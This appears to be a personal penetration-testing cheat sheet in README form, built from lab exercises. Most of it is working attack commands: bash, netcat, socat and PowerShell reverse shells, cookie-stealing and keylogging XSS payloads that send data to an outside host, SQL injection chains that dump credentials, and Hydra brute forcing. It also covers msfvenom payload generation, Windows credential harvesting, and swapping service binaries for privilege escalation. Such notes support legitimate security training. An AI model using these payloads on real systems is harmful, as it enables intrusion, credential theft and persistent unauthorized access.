

# Useful-git-links

## Priviledge escalation Linux:
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS <br>
LinEnum: https://github.com/rebootuser/LinEnum<br>
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

Linux vuln exploit: https://gtfobins.github.io/

# Useful commands

## Priviledge escalation Linux:
Exploit for every sudo app for the user: ```sudo -l``` <br>
Reverse shell command:  ```bash -i >& /dev/tcp/"ip"/"port" 0>&1```<br>
Find SUID bit: ```find / -type f -perm -04000 -ls 2>/dev/null```<br>
Find capabilities: ``getcap -r / 2>/dev/null`` <br>

### NFS
Find if there is NFS on : `cat /etc/exports`  (Need "no_root_squash" option on shared folder)
On another machine: 

    showmount -e "ip"
    mkdir /tmp/attackerbackup
    mount -o rw "ip":/"shared_folder" /tmp/attackerbackup
    Then add a new program that launch a shell and compile it, run it on the victim machine

## Content discovery web
Wordlist pour TOUT: https://github.com/danielmiessler/SecLists/tree/master
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

    ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.28.209/FUZZ

    dirb http://10.10.28.209/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

    gobuster dir --url http://10.10.28.209/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

## Subdomain discovery

DNS Bruteforce:

    dnsrecon -t brt -d <domain>
Automated tool: https://github.com/aboul3la/Sublist3r

    ./sublist3r.py -d <domain>
Virtual hosts: 

    ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP
## Username discovery
Fuzzing github: https://github.com/ffuf/ffuf

    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.229.11/customers/signup -mr "username already exists" 
    
-w: wordlist, -X: request method, -d:data, -H: Extra headers, -u: URL, -mr: success text to find in the page if username already used 

## Authentication bypass

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.229.11/customers/login -fc 200

-w: wordlist (:W1 = username, :W2 = passwords), -fc: check for HTTP Status Code to filter (in this case, filter 200)

## Hash craking
https://crackstation.net/

## File Inclusion
Files to aim which a Directory Traversal


    /etc/passwd
    ../../../../etc/passwd
    ../../../../etc/passwd%00
    ....//....//....//....//etc/passwd (Filter that replace ../ by empty string)
    <forced directory>../../../../etc/passwd (When a directory is forced, include it)

## SSRF
Bypass starting URL constraints (cannot start by /private) : x/../private

## XSS
Session Stealing:

    </textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>

Key Logger:

    <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

Business Logic:

    <script>user.changeEmail('attacker@hacker.thm');</script>

Some payloads :

    <script>alert('THM');</script>
    "><script>alert('THM');</script> (when the input is inside a tag <>)
    </textarea><script>alert('THM');</script> (when input is between <textarea> tags)
    ';alert('THM');// (when js get the input with  document.getElementsByClassName('name')[0].innerHTML='Adam')
    <sscriptcript>alert('THM');</sscriptcript> (when "script" is filtered)
    onload="alert('THM'); (when inside an image tag and "<" ">" are filtered
    

Polyglot (c'est OP)

    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/-       -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

## Command Injection 
https://github.com/payloadbox/command-injection-payload-list

Use ";" to chain syscall.

## SQL Injection

### In-Band SQLi

First we have to check how many columns there are to select : select 1 -> select 1,2 -> select 1,2,3 ....

    0 UNION SELECT 1,2,database()  (database() returns the name of the database) 

Once we know the name of the database, we get the tables of the database

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<database name>'

Then get the colums name of the table we're interested in

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table name>'

Then display the content: 

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users (where 'username' and 'password' are column names)

### Blind SQLi (the thing before union must be false so that we can check that our query works or not)

#### Authentication bypass 

    ' OR 1=1;--
#### Boolean based

    admin123' UNION SELECT 1,2,3 where database() like '%';-- (discover the name on a boolean base database, add character before % and see if the database returns true or not)
#### Time based

    admin123' UNION SELECT SLEEP(5);--  

# Burp suite

## Intruder

### Attack types

#### Sniper
One set of payloads, if multiple positions, will do one at a time

#### Battering ram
One set of payloads, if multiple positions, will do all at once (same one not alternating)

#### Pitchfork
One set of payloads per position, first with first ect... 

#### Cluster Bomb
One set of payloads per position, every single combination possible

## Macro
Use when we want to get session cookie or loginToken that is generated each time you enter a login page


## Sequencer
Used to measure the entropy of "tokens" (session, login ...) 

## Extender: 

Add extensions such as:
### IP Rotate: Use AWS to send requests to a website (to bypass IP restrictions)
### Request Timer: Time the response time to detect timing attack

# Passive Reconnaissance
Info on the domain name

    whois <DOMAIN_NAME>
Get IP adresses of a domain

    nslookup <DOMAIN_NAME>
    nslookup <OPTIONS> <DOMAIN_NAME> <SERVER> (OPTION: A for IPv4, AAAA for IPv6) (SERVER: DNS server)
    
## DNS Record Types

DNS isn't just for websites though, and multiple types of DNS record exist. We'll go over some of the most common ones that you're likely to come across.

### A Record

These records resolve to IPv4 addresses, for example 104.26.10.229

### AAAA Record

These records resolve to IPv6 addresses, for example 2606:4700:20::681a:be5

### CNAME Record

These records resolve to another domain name, for example, TryHackMe's online shop has the subdomain name store.tryhackme.com which returns a CNAME record shops.shopify.com. Another DNS request would then be made to shops.shopify.com to work out the IP address.

### MX Record

These records resolve to the address of the servers that handle the email for the domain you are querying, for example an MX record response for tryhackme.com would look something like alt1.aspmx.l.google.com. These records also come with a priority flag. This tells the client in which order to try the servers, this is perfect for if the main server goes down and email needs to be sent to a backup server.

### TXT Record

TXT records are free text fields where any text-based data can be stored. TXT records have multiple uses, but some common ones can be to list servers that have the authority to send an email on behalf of the domain (this can help in the battle against spam and spoofed email). They can also be used to verify ownership of the domain name when signing up for third party services.

# Active reconnaissance
Ping to know if the system is up and accept pings ?

    ping <domain>
Trace the route between us and the target:

    traceroute <domain>
Connect to the Telnet (port 23) program:

    telnet <ip> <port>
Connect to the webserver with Netcat:

    nc <ip> <port>

# Nmap
Get all the targets that will be scanned
    
    nmap -sL TARGETS
Host in a textfile: 

    nmap -iL <list_of_hosts.txt>
10.10.10.10/24 to give a mask
10.10.10.10-255 to give a range

## ARP Scan:	
    sudo nmap -PR -sn MACHINE_IP/24
## ICMP Echo Scan:	
    sudo nmap -PE -sn MACHINE_IP/24
## ICMP Timestamp Scan:	
    sudo nmap -PP -sn MACHINE_IP/24
## ICMP Address Mask Scan:	
    sudo nmap -PM -sn MACHINE_IP/24
## TCP SYN Ping Scan:	
    sudo nmap -PS22,80,443 -sn MACHINE_IP/30
## TCP ACK Ping Scan:	
    sudo nmap -PA22,80,443 -sn MACHINE_IP/30
## UDP Ping Scan:	
    sudo nmap -PU53,161,162 -sn MACHINE_IP/30
## Nmap options
-n: no DNS lookup <br>
-R: reverse-DNS lookup for all hosts <br>
-sn: host discovery only (no port scanning) <br>
-p-:	all ports <br>
-p1-1023:	scan ports 1 to 1023 <br>
-F:	100 most common ports <br>
-r:	scan ports in consecutive order <br>
-T<0-5>:	-T0 being the slowest and T5 the fastest <br>
--max-rate 50:	rate <= 50 packets/sec <br>
--min-rate 15:	rate >= 15 packets/sec <br>
--min-parallelism 100:	at least 100 probes in parallel <br>
-f: Fragment IP data into 8 bytes	<br>
-ff: Fragment IP data into 16 bytes	<br>
--spoof-mac SPOOFED_MAC: Spoofed MAC Address <br>
--source-port PORT_NUM: specify source port number <br>
--data-length NUM: append random data to reach given length <br>
--reason:	explains how Nmap made its conclusion <br>
-v:	verbose <br>
-vv:	very verbose <br>
-d:	debugging <br>
-dd:	more details for debugging <br>
-sV:	determine service/version info on open ports <br>
-sV: --version-light	try the most likely probes (2) <br>
-sV: --version-all	try all available probes (9) <br>
-O:	detect OS <br>
--traceroute:	run traceroute to target <br>
--script=SCRIPTS:	Nmap scripts to run <br>
-sC or --script=default:	run default scripts <br>
-A:	equivalent to -sV -O -sC --traceroute <br>
-oN:	save output in normal format <br>
-oG:	save output in grepable format <br>
-oX:	save output in XML format <br>
-oA:	save output in normal, XML and Grepable formats <br>
## TCP Connect Scan
    nmap -sT 10.10.87.248
## TCP SYN Scan	
    sudo nmap -sS 10.10.87.248
## UDP Scan	
    sudo nmap -sU 10.10.87.248
## TCP Null Scan	
    sudo nmap -sN MACHINE_IP
## TCP FIN Scan
    sudo nmap -sF MACHINE_IP
## TCP Xmas Scan	
    sudo nmap -sX MACHINE_IP
## TCP Maimon Scan	
    sudo nmap -sM MACHINE_IP
## TCP ACK Scan
    sudo nmap -sA MACHINE_IP
## TCP Window Scan
    sudo nmap -sW MACHINE_IP
## Custom TCP Scan	
    sudo nmap --scanflags URGACKPSHRSTSYNFIN MACHINE_IP
## Spoofed Source IP
    sudo nmap -S SPOOFED_IP MACHINE_IP
## Decoy Scan	
    nmap -D DECOY_IP,ME MACHINE_IP
## Idle (Zombie) Scan
    sudo nmap -sI ZOMBIE_IP MACHINE_IP

# Hydra

-l username:	Provide the login name <br>
-P WordList.txt:	Specify the password list to use <br>
server service:	Set the server address and service to attack <br>
-s PORT:	Use in case of non-default service port number <br>
-V or -vV:	Show the username and password combinations being tried <br>
-d:	Display debugging output if the verbose output is not helping <br>

    hydra -l <username> -P <wordlist> <server> <service>

# Metasploit
## Before exploit
### Launch metasploit:
    msfconsole
### Search for scripts:
    search <type:auxiliary/post/exploit....> <telnet,ssh...>
### Use:    
    use exploit/../../..
### Show parameters, payloads...:
    show options/payloads/exploits...
### Set a parameter value:
    set PARAMETER_NAME VALUE
### Set a file as a parameter: 
    rhosts file:/path/of/the/target_file.txt
### Remove a parameter value or all:
    unset PARAMETER_NAME/all
### Leave exploit console
    back
### Set/unset global parameter:
    setg/unsetg PARAMETER VALUE
### Launch exploit: 
    exploit/run (-z to launch it in the background, or CTRL+Z or -j)
### Check if target is exploitable without running the exploit:
    check
### Change payload:
    show payload
    set payload <id>
## Sessions
Once a vulnerability has been successfully exploited, a session will be created. This is the communication channel established between the target system and Metasploit.
### Background the session prompt:
    background
### Show existing sessions:
    sessions
### Interact with a session:
    sessions -i ID

## Database and Workspace
### Start PostgreSQL database:
    systemctl start postgresql
    msfdb init
### Database commands:
    db_status
    db_nmap
    ...
### Workspace commands:
    workspace -a/-d/-r/-D/-v
### Check hosts and services:
    hosts/services
### Get hosts to set rhosts:
    hosts -R
### Search through services: 
    services -S <service>
## Msfvenom
payload are stored as followed: <OS>/<arch>/<payload> (/ if staged or _ if not staged for shell/reverse or shell_reverse) <br>
### List all payloads:
    msfvenom --list payloads
### php payload:
    msfvenom -p php/reverse_php LHOST=<attacker ip> LPORT=XXXX -f raw > reverse_shell.php
### Linux ELF reverse_shell
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker ip> LPORT=XXXX -f elf > rev_shell.elf
### Windows reverse_shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker ip> LPORT=XXXX -f exe > rev_shell.exe
Without meterpreter:

    msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
### ASP reverse_shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
### Python reverse_shell
    msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
### Use a handler to catch the shell 
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp (or any of the above payloads)
## Meterpreter (post)
### Get pid of the meterpreter on the target:
    getpid
### See all the processes:
    ps
### Core commands:
background: Backgrounds the current session <br>
exit: Terminate the Meterpreter session <br>
guid: Get the session GUID (Globally Unique Identifier) <br>
help: Displays the help menu <br>
info: Displays information about a Post module <br>
irb: Opens an interactive Ruby shell on the current session <br>
load: Loads one or more Meterpreter extensions <br>
migrate: Allows you to migrate Meterpreter to another process <br>
run: Executes a Meterpreter script or Post module <br>
sessions: Quickly switch to another session <br>

### Networking commands
arp: Displays the host ARP (Address Resolution Protocol) cache <br>
ifconfig: Displays network interfaces available on the target system <br>
netstat: Displays the network connections <br>
portfwd: Forwards a local port to a remote service <br>
route: Allows you to view and modify the routing table <br>

### System commands

clearev: Clears the event logs <br>
execute: Executes a command <br>
getpid: Shows the current process identifier <br>
getuid: Shows the user that Meterpreter is running as <br>
kill: Terminates a process <br>
pkill: Terminates processes by name <br>
ps: Lists running processes <br>
reboot: Reboots the remote computer <br>
shell: Drops into a system command shell <br>
shutdown: Shuts down the remote computer <br>
sysinfo: Gets information about the remote system, such as OS <br>

### Others Commands (these will be listed under different menu categories in the help menu)

idletime: Returns the number of seconds the remote user has been idle <br>
keyscan_dump: Dumps the keystroke buffer <br>
keyscan_start: Starts capturing keystrokes <br>
keyscan_stop: Stops capturing keystrokes <br>
screenshare: Allows you to watch the remote user's desktop in real time <br>
screenshot: Grabs a screenshot of the interactive desktop <br>
record_mic: Records audio from the default microphone for X seconds <br>
webcam_chat: Starts a video chat <br>
webcam_list: Lists webcams <br>
webcam_snap: Takes a snapshot from the specified webcam <br>
webcam_stream: Plays a video stream from the specified webcam <br>
getsystem: Attempts to elevate your privilege to that of local system <br>
hashdump: Dumps the contents of the SAM database <br>

# Reverse and bind shell:
## Netcat
### Listen from attacking device
    sudo nc -lvnp 443 (reverse)
    nc <MACHINE_IP> <port> (bind)
### Send a shell from target device
    nc <LOCAL-IP> <PORT> -e /bin/bash (reverse)
    nc -lvnp <port> -e "cmd.exe" (bind)
    mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f (on new Linux without -e on nc, then attacker binds to it)
    mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f (same as above, then attacker listen to it)
### Send a shell from recent Windows server:
    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
### Shell stabilisation
#### Python:
    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    CTRL+Z  (to background the shell)
    stty raw -echo; fg (on attacker's shell)
    (reset to enable attacker's shell back)
#### rlwrap:
    rlwrap nc -lvnp <port>
#### Socat:
Use shell to download: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true <br>
Then execute it on linux target.<br>
On windows, instead of curl or wget, use:

    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
#### Terminal size for text editors...
On attacker's shell:

    stty -a (note the values of "rows" and "columns"
On reverse/bind shell:

    stty rows <number>
    stty cols <number>
## Socat
### Basic shell
#### Listen from attacking device (basic shell)
    socat TCP-L:<port> - (reverse)
    socat TCP:<TARGET-IP>:<TARGET-PORT> - (bind)
#### Send a shell from target device (basic shell)
    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes (reverse Windows)
    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li" (reverse Linux)
    socat TCP-L:<PORT> EXEC:"bash -li" (bind Linux)
    socat TCP-L:<PORT> EXEC:powershell.exe,pipes (bind Windows)   
#### Listen from attacking device (very stable shell)
    socat TCP-L:<port> FILE:`tty`,raw,echo=0  
#### Send a shell from target LINUX device (very stable shell)
First download: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true on the target machine, then: <br>
    
    socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
#### Add verbosity
    -d -d (in the command)
### Encrypted shell
#### Generate certificate:
    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
    cat shell.key shell.crt > shell.pem
#### Listen to the reverse shell:
    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
#### Send encrypted reverse shell from target:
    socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
#### Listen for bind shell:
    socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
#### Send encrypted bind shell from target:
    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
## Webshell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

### URL Encoded Powershell Reverse Shell (command to put in the url as a command for the webshell):
    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

## Add users on a windows system:
    net user <username> <password> /add
    net localgroup administrators <username> /add

# Priviledge escalation Windows
## Automated tools
WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS <br>

    winpeas.exe > outputfile.txt
PrivescCheck: https://github.com/itm4n/PrivescCheck <br>
Bypass execution policy restrictions and launch: <br>

    Set-ExecutionPolicy Bypass -Scope process -Force
    . .\PrivescCheck.ps1
    Invoke-PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation: https://github.com/bitsadmin/wesng <br>
Great because it executes on the attacker machine and then doesn't need to upload and execute a binary on the target machine. <br>
Before launching:

    wes.py --update 
We need to give the output of "systeminfo" command on the target machine:

    wes.py systeminfo.txt

In Metasploit: multi/recon/local_exploit_suggester

## Password harvesting
### Unattended Windows Installations
Installation done on many machine at the same time without the user. This can leave some config files with the passwd ect..: <br>
- C:\Unattend.xml <br>
- C:\Windows\Panther\Unattend.xml <br>
- C:\Windows\Panther\Unattend\Unattend.xml <br>
- C:\Windows\system32\sysprep.inf <br>
- C:\Windows\system32\sysprep\sysprep.xml <br>

### Powershell history 
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  (cmd.exe)
    type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (powershell)
    
### Saved Windows Credentials
#### List saved creds:
    cmdkey /list
#### Use the saved creds of the admin user to run the console:
    runas /savecred /user:admin cmd.exe

### IIS Configuration
Default web server. <br>
Look for database passwd or user passwd in web.config: <br>
- C:\inetpub\wwwroot\web.config <br>
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config <br>

        type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

### Retrieve Credentials from Software: PuTTY
Kind of SSH usually used on windows 

    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

## Scheduled Tasks
### List all scheduled tasks
    schtasks
### Details about a scheduled task
    schtasks /query /tn <NAME_OF_THE_TASK> /fo list /v
#### Example
Folder: \ <br>
HostName:                             THM-PC1 <br>
TaskName:                             \vulntask<br>
Task To Run:                          C:\tasks\schtask.bat<br>
Run As User:                          taskusr1<br>
#### Idea
Like in Linux, see if you can modify or overwrite "Task to Run" by a malicious file
### Check file permissions on the executable
    icacls <FILE_PATH>
### Run a scheduled task (not always possible)
    schtasks /run /tn <TASK_NAME>

## AlwaysInstallElevated
Need to set 2 registry values to always install .msi with a high priviledged account, then install a malicious .msi
### Set the registry values
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
### Generate the malicious .msi with msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<LOCAL_PORT> -f msi -o malicious.msi
### Execute the .msi on the windows machine 
    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    
## Windows Services
### Check the apphostsvc service configuration
    sc qc <SERVICE>
### Check the services configurations 
HKLM\SYSTEM\CurrentControlSet\Services\ <br>
Look for a Discretionary Access Control List (DACL) in the "Security" subkey, we'd like to change it but only admin can<br>
### Insecure Permissions on Service Executable
If the executable of the service is modified by anyone, we gan replace it by a malicious one. <br>
#### Step by Step
##### Find the executable of the vulnarable service
    sc qc <SERVICE>
##### Get the permissions of the executable
    icacls <SERVICE_EXECUTABLE_PATH>
If Modifiable by us: <br>
##### Generate a malicious exe-service payload with msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe-service -o rev-svc.exe
##### Change the executable by our executable
    cd <DIRECTORY_OF_THE_EXECUTABLE>
    move <SERVICE.EXE> <SERVICE.EXE.BKP>
    move <MALICIOUS.EXE> <SERVICE.EXE>
    icals <SERVICE.EXE> /grant Everyone:F
##### Restart the service (or wait for it to restart on its own)
    sc stop <SERVICE>
    sc start <SERVICE>
### Unquoted Service Paths    
Force a service into running arbitrary executables <br>
If the BINARY_PATH_NAME isn't quoted and contains spaces, it can be vulnerable. <br>
If it is: <C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe> without quote, the Service Control Manage(SCM) will try to execute <C:\MyPrograms\Disk.exe> then <C:\MyPrograms\Disk Sorter.exe> and then <C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe>. <br>
If we can create a file with path <C:\MyPrograms\Disk.exe> or <C:\MyPrograms\Disk Sorter.exe>, the SMC will execute it instead. <br>

### Insecure Service Permissions
If the Discretionary Access Control List (DACL) of the Service (not Service executable) is not well configurated, we could change the BINARY_PATH_NAME <br>
#### Check service DACL
Use Acesschk: https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk <br>
Go to dir of AccessChk and then: 

    accesschk64.exe -qlc <SERVICE>
#### Change Service's associated executable and account
    sc config THMService binPath= <"C:\Users\thm-unpriv\rev-svc3.exe"> obj= <LocalSystem>
